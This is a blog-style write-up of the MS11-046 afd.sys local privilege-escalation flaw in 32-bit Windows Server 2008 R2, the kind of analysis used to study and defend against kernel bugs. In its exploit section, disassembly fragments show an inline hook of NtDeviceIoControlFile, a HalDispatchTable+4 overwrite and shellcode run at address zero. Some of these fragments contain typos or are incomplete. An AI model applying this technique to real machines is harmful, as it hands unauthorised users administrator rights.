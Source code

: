```yaml
---
layout: post
title: Ancillary Function Driver [MS11-046]
date:   2021-01-31
categories:  PE MSDOS
published: true
---
```


Started the kernel fuzzing in Windows Server 2008 R2 , 32-Bit. I identified this version of windows using vulnerable or unpatched version of Ancillary Function Driver(AFD).

----
[](#header-1)**Definition**
---

The ancillary function driver supports windows sockets application in the afd.sys file. The afd.sys driver runs in a kernel mode and manages the Winsock TCP/IP communication protocols.

----
[](#header-2)**Analysis**
---

Major Flaw in AFD Driver is it was improperly validating input passed from the user mode to the kernel mode, through which any user can get Administrator Rights.
For exploiting this vulnerability , the user should have Login Credentials as a Local User.

----
 [](#header-3)**Bug Mechanism**
---

Once Execution is done , Process waits for a user to enter an argument, with successfull execution of a process, user will able to exploit Privilege Escalation.

***BUG***

Once the Execution is started :

It calls “ZwQuerySystemInformation” with user arguments such as -> **InfoType = SystemModuleInfo**

After command execution , it will list the loaded drivers with there memory addresses in kernel mode.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/1.png)

We identified the Entry of "**ntoskrnl.exe**" or "**ntkrnlpa**" in the list the memory is loaded in the kernel space from "**“_SYSTEM_MODULE_INFORMATION**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/2.png)


**LoadLibrary()** will Load the module in user mode and start searching for the address of "**HalfDispatchTable**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/3.png)

Instructions are used to get the “**HalDispatchTable +4**” in module “ntkrnlpa.exe” in kernel space.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/4.png)

----
 [](#header-4)**Exploit**
---

1. The exploit will start by fetching the address to “NtDeviceIoControlFile” API from NTDLL. Once the address is fetched it performs an inline function hooks to the API.

Code is used to Perform the Hook:

    
    	MOV BYTE PTR DS:[ESI],68

    /* ESI points to start of the address of NtDeviceIoControlFile */

        MOV DWORD PTR DR:[ESI+1],
        MOV BYTE PTR DR:[ESI+5]

    /* Above instructions used to inject instructions in to the address space of NtDeviceIoControlFile */

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/5.png)


    PUSH <zero.loc_401640>
    RETN 


The address <zero.loc_401640> points to the hook routine which will be executed before NtDeviceIoControlFiles code as shown below :

     CMP DWORD PTR SS:[ESP+18],12007

    /* 12007 indicates the Iocontrolcode for socket connect */

        JNZ SHORT <zero.loc_40165B>
        MOV EAX,DWORD PTR DS:[40FA70]

    /* contains values 8053513c (address of HalDispatchTable + $4) */

        MOV DWORD PTR SS:[ESP+24],EAX

    /* output buffer for NtDeviceIoControlFile, the address now point to 8053513c*/

    MOV DWORD PTR SS:[ESP+80], 0

    /* The length of output buffer is set to 0  */

    LEA EAX DWORD PTR DS:[40FA78]

    /* Location of the original NtDeviceControlFile which gets executed next. */

    PUSH EAX
    RETN

The above code will change arguments provided to function “**NtDeviceIoControlFile**” when a socket connection bein performed, the arguments changed are output buffer and its length as given below :

        Outbuffer = 8053513c
        Length = 0;

The routine at adddress **0x0040fa78** is executed , “**NtDeviceIoControlFile**” .

     MOV EAX 42, 
     MOV EDX,7FF30300
     CALL EDX
     RETN 28

The modified code is it will hook without any error to connect with 127.0.0.1 at 135 port using connect() “**NtDeviceControl**”.
The driver writes location to (0x8053513c) -> HalfDispatchTable + $4) with the value 0.  

Once is hook successfully overwrites the memory to 0, NtDeviceIoControlFile is removed.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/6.png)

Final Step of Exploitation To call the API “**ntdll.ZwQueryIntervalProfile**".

     CALL DWORD PTR [HalfDispatchTable+$4]

As mentioned earlier the value of HalfDispatchTable+$4 is now 0 stored after call to connect().

        New Pointer PTR:
        CALL 0x0000000

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/7.png)

The shellcode is copied to the location of 0x00000000 gets executed.

API CALL “**NtDeviceIoControlFile**” will lead to arbitrary memory overwrite which will lead to Privilege Escalation.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/8.png)


----
 [](#header-5)**Proof Of Concept**
---

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/9.png)

















